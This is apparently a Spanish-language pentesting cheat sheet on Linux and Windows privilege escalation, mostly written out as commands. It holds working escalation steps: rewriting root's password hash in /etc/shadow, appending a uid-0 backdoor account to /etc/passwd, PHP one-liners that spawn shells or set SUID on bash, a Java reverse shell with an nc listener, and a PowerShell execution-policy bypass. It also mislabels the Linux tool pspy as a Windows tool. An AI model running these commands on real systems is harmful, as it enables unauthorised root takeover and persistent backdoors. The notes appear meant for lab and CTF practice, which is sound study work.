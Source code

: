 <h1>Escalada de privilegios</h1>

## **HERRAMIENTAS ÚTILES**

- **GTFOBins:** Un repositorio de técnicas de escalada de privilegios y ejecución de comandos utilizando binarios de Unix.

### **Comprobar Comandos Sudo**

- sudo -l

### **Buscar Contraseñas en Archivos de Configuración**

- ls /var/www/html
- Revistar archivos php y conf

### **Crontab**

Buscar en crontab archivos que se ejecuten como root y que podamos editar:

- crontab -l
- ls /etc/cron\*

**Enumerar Variables de Entorno**

El comando env muestra todas las variables de entorno de la shell. Podría incluir información sensible, como contraseñas:


### **Enumerar Información del Sistema**

Enumerar rutas interesantes:

- ls -lsaht /opt | /tmp | /var/tmp | /var/backups | /var/mail | /dev/shm

Enumerar información del sistema para encontrar posibles vulnerabilidades:

- uname -a
- cat /etc/\*-release
- file /bin/bash

### **Permisos SUID**

Buscar archivos con permisos SUID:

- find / -perm /4000 2>/dev/null

### **Buscar Archivos con Permisos de Escritura y lectura**

Buscar archivos y directorios que tienen permisos de escritura para todos los usuarios:

- find / -not -type l -perm -o+w 2>/dev/null
- find / -not -type l -perm -o+r 2>/dev/null|grep /etc/shadow

###

### **Modificar /etc/shadow**

Si tienes permisos de escritura en /etc/shadow, puedes generar una nueva contraseña para root:

- openssl passwd -1 -salt abc password

Reemplazar la entrada de root en /etc/shadow con la nueva contraseña.

### **Crear enlace simbólico**

Creando un enlace simbólico desde nuestro directorio de trabajo al de root:

- ln -s /root rooter

Y ahora desde mi equipo intento leerla:

- curl <http://192.168.1.26:3333/jan/rooter/root.txt>

### **Capabilities**

- /usr/sbin/getcap -r / 2>/dev/null

Este comando recorrerá todos los archivos del sistema y mostrará sus capacidades, si las tienen. Se pueden explotar desde GTFObins en capabilities copiando en comando

### **Ver archivos con Nmap**

- nmap -iL \*ruta\*

### **Ver si un archivo se esta ejecutando en el script de otro archivo (Tareas programadas)**

- grep -nri “/tmp/message” / 2>dev/null

Busca de forma recursiva si en /usr hay algun script que mencione el archivo “/tmp/message”

### **Script para fuerza bruta al usuario root**

<https://github.com/d4t4s3c/suForce>

##

## **EJEMPLOS DE ESCALADA**

### **Escalada con Python**

Si tienes permisos de escritura en el script, edítalo para incluir una línea que proporcione una bash con privilegios de root.

- import os

os.system(“/bin/sh”)

Si no puedes editar el script, puedes eliminarlo y crear uno nuevo con el mismo nombre, ejemplo:

<https://romabri.github.io/Library>

###

### **Escalada con grep y cut**

Si dispones de permisos como root en grep y cut haciendo sudo -l, puedes ver archivos que sólo root puede ver

### **Escalada con Java**

Si tienes permisos de root en Java:

1. Crear un archivo revershell.java que contenga la reverse shell.
2. Ejecutarlo con java como sudo

- sudo /usr/bin/java revershell.java

1. Escuchar la conexión en la máquina local:

- nc -lvnp &lt;puerto&gt;

### **Escalada con PHP**

Si puedes ejecutar PHP como otro usuario usando sudo, ejecuta el siguiente comando para abrir una terminal con el usuario indicado.

- sudo -u chocolate /usr/bin/php -r 'system("/bin/sh");

![image](https://github.com/user-attachments/assets/29ead444-3a83-4584-ba0e-b824fe090d9e)


Si puedes ejecutar PHP como root, ejecuta el siguiente comando para conceder permisos SUID al bash. Cuando el bash se ejecute obtendrás una terminal con el usuario root

- echo '&lt;?php exec("chmod 4755 /bin/bash"); ?&gt;' > /opt/script.php

##

### **Escalada con chown**

- LFILE=/etc/passwd
- sudo chown $(id -un):$(id -gn) $LFILE
- openssl passwd hola123
- echo 'newroot:$1$EBhVbkUV$zW3uLFiknxfdzUV5OjQZ40:0:0::/home/newroot:/bin/bash' >> /etc/passwd
- su newroot


## **AUTOMATIZAR ESCALADA EN WINDOWS**

### **PSPY64**

Es una herramienta diseñada para monitorear procesos y detectar configuraciones incorrectas que podrían permitir la escalada de privilegios en sistemas Windows.

<https://github.com/DominicBreuker/pspy>

### **LOCAL_EXPLOIT_SUGGESTER (metasploit)**

![image](https://github.com/user-attachments/assets/5deee4e3-d5bc-4d19-a563-2b4783a783a3)

Seleccionamos uno de ellos, en este caso ms16_014_wmi_recv_notif, rellenamos los campos y establecemos la sesion meterpreter con altos privilegios


También existe esta misma herramienta en github que contiene el manual de uso:

<https://github.com/AonCyberLabs/Windows-Exploit-Suggester>

### **PRIVESC CHECK**

Existe un script en PowerShell que enumera las credenciales de otros usuarios y posibles vías de escalada de privilegios.

Clonar repositorio:

<https://github.com/itm4n/PrivescCheck.git>

Transferir el repositorio clonado a la máquina Windows vulnerada y posicionarnos dentro de la carpeta clonada. Una vez ahí ejecutar el siguiente comando:

- powershell -ep bypass -c ". .\\PrivescCheck.ps1; Invoke-PrivescCheck"

![image](https://github.com/user-attachments/assets/bfd3fdb0-ad3f-4423-afe3-306b1131bbd6)

## **AUTOMATIZAR ESCALADA EN LINUX**

### **LINPEAS**

Es una herramienta que busca en el sistema configuraciones incorrectas y vulnerabilidades que pueden permitir la escalada de privilegios.

<https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS>
